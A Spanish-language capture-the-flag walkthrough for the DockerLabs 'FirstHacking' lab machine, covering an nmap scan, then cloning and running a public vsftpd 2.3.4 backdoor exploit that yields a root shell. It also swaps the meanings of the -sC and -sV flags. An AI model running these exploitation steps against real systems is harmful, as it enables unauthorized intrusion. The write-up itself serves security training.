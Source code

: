 ## WRITEUP DE LA MAQUINA FIRSTHACKING DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado el -p- y el -n ya que me tardaba mucho hacer el escaneo y para algo tan sencillo es mas eficaz y rapido ejecutar un comando mas corto.

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 11:12 EDT
Nmap scan report for 172.17.0.2
Host is up (0.000099s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
```
Vemos que el puerto 21 del servicio ftp está abierto, en este caso nos vamos a fijar en la versión de dicho servicio (vsftpd 2.3.4). Para explotar esta versión nos guiaremos con un repositorio de github muy bien explicado del usuario " Hellsender01", aqui la url: https://github.com/Hellsender01/vsftpd_2.3.4_Exploit . Aquí encontraremos la explicación de dicha versión del servicio ftp y la vulnerabilidad de este, asi como los requisitos para poder ejecutar el exploit de python y el propio exploit. 

Ejecutarlo es tan sencillo como tener instalada la biblioteca "pwntools" que proporciona herramientas para el desarrollo de exploits y la explotación de vulnerabilidades, para ello ejecutamos el comando:
```shell
sudo python3 -m pip install pwntools
```
"sudo" Permite ejecutar el comando con privilegios de superusuario. En sistemas basados en Unix (como Linux), esto es necesario para instalar paquetes en el sistema global.
<br><br>
"python3 -m pip" Ejecuta pip (el gestor de paquetes para Python) usando la versión de Python 3. 
<br><br>
El flag "-m" permite ejecutar un módulo como un script.
<br><br>
"install" Indica que pip debe instalar el paquete.
<br><br>
"pwntools" Es el nombre del paquete que quieres instalar.
<br>
Ahora con los requerimientos listos, toca descargar el exploit y un par de comandos mas (explicados más adelante)

```shell
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git
cd vsftpd_2.3.4_Exploit/
chmod +x exploit.py
```
"git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git" Clona (es decir, crea una copia) de un repositorio de Git en tu máquina local. El repositorio se encuentra en la URL que proporcionas.
<br><br>
"cd vsftpd_2.3.4_Exploit/" Cambia el directorio actual a la carpeta vsftpd_2.3.4_Exploit/, que es el directorio creado por el comando git clone.
<br><br>
"chmod +x exploit.py" El comando chmod (change mode) modifica los permisos del fichero o directorio que indiques, si añades un "+x" despues del chmod conseguiras dar permisos de ejecucion tanto para el propietario, grupo y otros.
<br><br>
Ahora solo falta ejecutarlo para conseguir ser root, para ello escribimos:
```shell
sudo python3 exploit.py 172.17.0.2 
```
"sudo" permite ejecutar comandos con privilegios de superusuario.
<br>
"python3" ejecuta python y en concreto la version python3.
<br>
"exploit.py" indica el archivo python (.py) que se va a ejecutar.
<br>
"171.17.0.2" es la ip de la maquina víctima.

```shell
[+] Got Shell!!!
[+] Opening connection to 172.17.0.2 on port 21: Done
[*] Closed connection to 172.17.0.2 port 21
[+] Opening connection to 172.17.0.2 on port 6200: Done
[*] Switching to interactive mode
$ whoami
root
```
Somos root! muchas gracias por seguir este writeup!